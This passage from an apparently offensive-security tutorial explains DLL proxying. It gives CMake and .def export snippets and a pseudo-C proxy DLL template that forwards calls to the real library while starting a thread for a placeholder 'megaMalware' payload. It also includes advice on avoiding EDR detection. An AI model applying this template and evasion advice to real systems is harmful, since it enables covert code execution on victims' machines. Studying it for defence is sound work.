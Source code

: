 If your executable is vibing with calling functions by ordinal numbers instead of names, you'll need to handle exports properly. One way is to create a Module-Definition File (.def) in Microsoft Visual Studio and let it handle the magic for you. Or, better yet - break free and embrace CMake!

```C
---- CMAKE ----
add_library(project-name SHARED <Sus DLL>.c)
set_target_properties(project-name PROPERTIES LINK_FLAGS "/DEF:${CMAKE_SOURCE_DIR}/exports.def")
---- .def ----
EXPORTS
  YourCoolFunction @OrdinalNumber
```

Don't mess too much with official files in C:\Windows\System32-EDRs are like neurotic cleaners who really don't appreciate things being out of place. A misplaced or altered file might set off alarms and land your work in front of an unlucky analyst. Best to keep a low profile.
To wrap things up, it's all about the proxy, proxy and more proxies. Make sure the exported functions operate as expected. Open your thread or whatever necessary context, then call the required function and return control when done. This ensures smooth execution while allowing the functions to work properly.

```C
--- Pseudo DLL ----
#include <Windows.h>
// Why implement when you can proxy. Implement per function required(づ￣ 3￣)づ
#pragma comment (linker, "/export:<yourFunc>=<newName>.<yourFunc>,@ordinal")

VOID megaMalware(){
  MessageBoxA(NULL, "Boh!", "We made it!", MB_OK | MB_ICONEXCLAMATION);
}
typedef PVOID(WINAPI* <yourFunc>)();
extern __declspec(dllexport) PVOID <yourFunc>() {
  // Launch that sucker!
  CreateThread(NULL, 0x00, megaMalware, NULL, 0x00, NULL);
  
  // Launch the expected func 
  ## Loadlib
  ## GetProcAddress
  return <yourFunc>();
  
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReasonForCall, LPVOID lpReserved) {
    switch (dwReasonForCall) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## Side Quest: DLL techniques, why didn't PlugX change…!?!
